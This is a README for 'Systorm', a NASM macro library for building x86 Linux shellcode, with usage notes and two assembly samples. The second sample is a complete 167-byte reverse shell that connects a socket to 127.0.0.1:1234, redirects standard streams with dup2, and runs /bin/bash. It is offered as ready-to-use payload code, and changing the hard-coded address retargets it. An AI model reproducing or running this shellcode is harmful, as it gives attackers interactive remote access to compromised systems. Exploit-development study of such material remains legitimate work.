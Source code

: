 # Systorm
NASM Standard Library for shellcode
---
https://scorchsecurity.wordpress.com/2016/07/31/nasm-and-friends/

##Usage:
To use the methods defined in systorm, you have to include "systorm.inc" with: `%include "systorm.inc"`
You have to include each method that you use (excepting syscalls) with `use func1, func2, ...`

A simple program is:
```
%include "systorm.inc"

global _start
; _start goes first
_start:
    jmp main

use sock.socket, sock.connect

main:
	stackframe 4

	sock.socket AF_INET, SOCK_STREAM
	mov dword [ebp-4], eax
	sock.connect dword [ebp-4], AF_INET, 0x0101017F, 0xD204	; 127.0.0.1, 1234

	inline 'Hello!', 0xa			; places addr of 'Hello!\n' into eax
	
	sys.write dword [ebp-4], eax, 7	; write 'Hello!\n' to sockfd
	sys.close dword [ebp-4]			; close sockfd
	
	leave
	sys.exit 0
```
As is evident, systorm defines a number of macros that can be used to perform useful operations, like including inline data and setting up stackframes.

Additionally, all syscalls (prefixed with "sys.") are set up as macros, so they do not need to be included like other functions.

A simple reverse shell (167 bytes) is:
```
[BITS 32]

%include "systorm.inc"

global _start
_start:
    jmp main

use sock.socket, sock.connect

main:
    stackframe 4

    sock.socket AF_INET, SOCK_STREAM
    mov dword [ebp-4], eax
    sock.connect dword [ebp-4], AF_INET, 0x0101017F, 0xD204	; 127.0.0.1, 1234s
    mov ecx, 2
.dup_loop:
    sys.dup2 [ebp-4], ecx
    dec ecx
    jns .dup_loop
exec:
    inline '/bin/bash', 0
    sys.execve eax, 0, 0
    sys.exit 0
```
